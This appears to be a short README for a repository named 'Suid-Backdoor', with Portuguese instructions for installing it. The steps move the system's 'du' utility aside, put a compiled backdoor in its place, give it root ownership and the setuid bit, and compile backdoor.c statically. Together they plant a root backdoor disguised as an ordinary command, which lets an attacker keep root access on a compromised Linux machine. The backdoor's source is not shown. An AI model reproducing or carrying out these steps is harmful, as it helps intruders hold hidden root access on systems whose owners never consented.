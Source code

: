 # Suid-Backdoor
# Instale utilizando:
mv du_original /bin/bin/duis
mv backdoor /bin/du
chown root:root /bin/du
chmod +s /bin/du

# Compile com: gcc backdoor.c -o backdoor -static
